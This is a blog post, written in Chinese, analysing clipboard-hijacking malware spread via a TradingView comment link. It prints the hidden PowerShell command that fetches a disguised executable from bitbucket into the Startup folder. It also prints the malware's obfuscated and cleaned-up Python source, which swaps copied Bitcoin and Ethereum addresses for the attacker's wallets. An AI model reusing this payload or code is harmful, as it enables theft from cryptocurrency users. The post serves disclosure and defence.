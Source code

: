 ```yaml
---
title: "Clipboard hijacking cryptocurrency malware on tradingview.com"
date: 2020-08-16 16:24:04
categories:
- [security, news]
tags:
- security
- news
---
```


最近在 tradingview.com 上面看到這篇 Idea [EOS - footprints of institutional money](https://www.tradingview.com/chart/EOSUSDT/SDsMZhix-EOS-footprints-of-institutional-money/)，看起來像是正常的分析趨勢走向的 Idea，但是下面留言有一個連結 `mycryptorush.com/signals`，說是可以得到免費的 bitcoin 和交易趨勢訊號。

{% img /images/clipboard-hijack-1.png 'tradingview idea' %}

點下去其實是導向 `tinyurl.com/cryptorushsignals`，這個短網址又是導向 `https://bbuseruploads.s3.amazonaws.com/7e1f7e0b...`，會下載 `CryptoRushSignals.zip` 下來。看起來就很可疑，明明看起來是要去一個網站，卻載了檔案下來。解壓縮該 zip 檔之後有兩個檔案 `HOWTOUSE.txt` 和 `CryptoRushSignals.run.lnk`。

```plain HOWTOUSE.txt
Open CryptoRushSignals.run, this will open up a website were you can register.
It then automatically will open up an excel sheet with the live current signals.
```

純文字的說明文件，叫你執行 `CryptoRushSignals.run`，真的去執行之後，會跳出瀏覽器瀏覽 `https://t.me/MyCryptoradar`，讓你加入一個 telegram 群組，就可以收到一些指標數據的變化通知，裡面現在有 400 多人。

{% img /images/clipboard-hijack-2.png 'tradingview idea' %}

除了打開瀏覽器叫你加群組之外，他還秘密執行了下面這段 payload

```powershell
"C:\windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12; Start-Process -FilePath "https://t.me/MyCryptoradar; Invoke-WebRequest -Uri "https://bitbucket.org/cryptorushh/cryptorush/downloads/pcmoni.png" -OutFile C:\Users\$env:UserName\AppData\Roaming\Microsoft\Windows\Start` Menu\Programs\Startup\pclp.exe
```

基本上就是去 bitbucket 下載 `https://bitbucket.org/cryptorushh/cryptorush/downloads/pcmoni.png` 這個 png，然後放到開機自動執行的路徑，而且這個也不是 png，他就是一隻 PE 執行檔。

{% img /images/clipboard-hijack-3.png 'tradingview idea' %}

稍微看一下那隻 PE 執行檔後，發現他是用 py2exe 包的，那就用 [unpy2exe](https://github.com/matiasb/unpy2exe) 拆回 pyc，再用 [uncompyle6](https://github.com/rocky/python-uncompyle6) 就可以拆出原本的 python script 了。

```python 8.61.py
# uncompyle6 version 3.7.2
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.15 (default, Dec 23 2019, 14:00:59) 
# [GCC 4.2.1 Compatible Apple LLVM 10.0.1 (clang-1001.0.46.4)]
# Embedded file name: 8.61.py
# Compiled at: 2020-08-15 23:23:49
from __future__ import print_function
import sys
oo000 = sys.version_info[0] == 2
ii = 2048
oOOo = 7

def O0(ll_opy_):
    o0O = ord(ll_opy_[(-1)])
    iI11I1II1I1I = ll_opy_[:-1]
    oooo = o0O % len(iI11I1II1I1I)
    iIIii1IIi = iI11I1II1I1I[:oooo] + iI11I1II1I1I[oooo:]
    if oo000:
        o0OO00 = unicode().join([ unichr(ord(oo) - ii - (i1iII1IiiIiI1 + o0O) % oOOo) for i1iII1IiiIiI1, oo in enumerate(iIIii1IIi) ])
    else:
        o0OO00 = str().join([ chr(ord(oo) - ii - (i1iII1IiiIiI1 + o0O) % oOOo) for i1iII1IiiIiI1, oo in enumerate(iIIii1IIi) ])
    return eval(o0OO00)


import time, re, pyperclip, subprocess
if 0:
    ooOoO0O00 * IIiIiII11i
if 0:
    oOo0O0Ooo * I1ii11iIi11i

def I1IiI():
    while 0 < 1:
        try:
            o0OOO = None
            if 0:
                ooOo + Oo
            o0OIiiIII111iI = subprocess.Popen(['C:\\windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe', 'Get-Clipboard'], stdout=subprocess.PIPE, startupinfo=IiII)
            o0OOO = str(o0OIiiIII111iI.stdout.read()).strip().decode('utf-8').rstrip(u'\x00')
            if o0OOO != iI1Ii11111iIi and o0OOO != i1i1II:
                if re.match(O0oo0OO0, str(o0OOO)):
                    pyperclip.copy(iI1Ii11111iIi)
                    pyperclip.paste()
                elif re.match(I1i1iiI1, str(o0OOO)):
                    pyperclip.copy(i1i1II)
                    pyperclip.paste()
        except Exception as iiIIIII1i1iI:
            print(iiIIIII1i1iI)

        time.sleep(1)
        if 0:
            o00ooo0 / Oo00O0

    return


if __name__ == O0(u'\u0829\u0862\u0863\u0872\u0867\u0869\u086f\u0861\u0862\u082b\u0805'):
    i1i1II = '0x22f338FC26Ea71EC884256C29103122c4578EE27'
    iI1Ii11111iIi = '14uJZuPNtdtDowpcoGBF14fX3uo57fbvvS'
    O0oo0OO0 = '^[13][a-km-zA-HJ-NP-Z1-9]{25,34}$'
    I1i1iiI1 = '^(0x)?[0-9a-fA-F]{40}$'
    time.sleep(15)
    IiII = subprocess.STARTUPINFO()
    IiII.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    I1IiI()
    if 0:
        o0oooOoO0
    if 0:
        IiIii1Ii1IIi / O0Oooo00.oo00 * I11
    if 0:
        I1111 * o0o0Oo0oooo0 / I1I1i1 * oO0 / IIIi1i1I
# okay decompiling 8.61.py.pyc
```

有稍微混淆過的原始碼，重新命名一下變數就可以了。

```python
from __future__ import print_function
import time, re, pyperclip, subprocess

def main():
    while True:
        try:
            clipboard = None
            process = subprocess.Popen(['C:\\windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe', 'Get-Clipboard'], stdout=subprocess.PIPE, startupinfo=startupinfo)
            clipboard = str(process.stdout.read()).strip().decode('utf-8').rstrip(u'\x00')
            if clipboard != btc_address and clipboard != eth_address:
                if re.match(btc_address_pattern, str(clipboard)):
                    pyperclip.copy(btc_address)
                    pyperclip.paste()
                elif re.match(eth_address_pattern, str(clipboard)):
                    pyperclip.copy(eth_address)
                    pyperclip.paste()
        except Exception as err:
            print(err)
        time.sleep(1)
    return

if __name__ == '__main__':
    eth_address = '0x22f338FC26Ea71EC884256C29103122c4578EE27'
    btc_address = '14uJZuPNtdtDowpcoGBF14fX3uo57fbvvS'
    btc_address_pattern = '^[13][a-km-zA-HJ-NP-Z1-9]{25,34}$'
    eth_address_pattern = '^(0x)?[0-9a-fA-F]{40}$'
    time.sleep(15)
    startupinfo = subprocess.STARTUPINFO()
    startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    main()
```

他把你剪貼簿裡面符合 bitcoin 或 ethereum 地址格式的通通換成他錢包的位址。

## IOC

* 0x22f338FC26Ea71EC884256C29103122c4578EE27
* 14uJZuPNtdtDowpcoGBF14fX3uo57fbvvS